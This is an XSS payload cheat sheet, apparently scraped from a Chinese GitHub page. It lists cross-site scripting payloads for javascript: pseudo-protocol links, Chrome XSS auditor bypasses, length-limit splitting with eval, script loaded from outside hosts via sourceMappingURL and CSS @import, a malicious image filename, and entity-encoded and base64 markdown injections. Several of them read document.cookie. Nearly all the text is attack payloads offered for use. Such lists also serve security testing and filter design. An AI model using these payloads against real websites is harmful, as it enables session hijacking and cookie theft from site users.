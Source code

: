 **伪协议**

```
• <a href=javascript:/0/,alert(%22M%22)>M</a>
• <a href=javascript:/00/,alert(%22M%22)>M</a>
• <a href=javascript:/000/,alert(%22M%22)>M</a>
• <a href=javascript:/M/,alert(%22M%22)>M</a>
```

**Chrome XSS auditor bypass  **

```
• ?param=https://&param=@z.exeye.io/import%20rel=import%3E
• <base href=javascript:/M/><a href=,alert(1)>M</a>
• <base href=javascript:/M/><iframe src=,alert(1)></iframe>
```

**长度限制**

```
<script>s+="l"</script>
\...
<script>eval(s)</script>
```

**jquery sourceMappingURL  **

```
</textarea><script>var a=1//@ sourceMappingURL=//xss.site</script>
```

**图片名  **

```
"><img src=x onerror=alert(document.cookie)>.gif
```

**过期的payload**

• src=javascript:alert 基本不可以用
• css expression 特性只在旧版本 ie 可用  

**css**

```
<div style="background-image:url(javascript:alert(/xss/))">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
```

**markdown**

```
[a](javascript:prompt(document.cookie))
[a](j a v a s c r i p t:prompt(document.cookie))
<&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&
,!#x27&#x58&#x53&#x53&#x27&#x29>
![a'"`onerror=prompt(document.cookie)](x)
[notmalicious](javascript:window.onerror=alert;throw%20document.cookie)
[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
![a](data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4=)
```
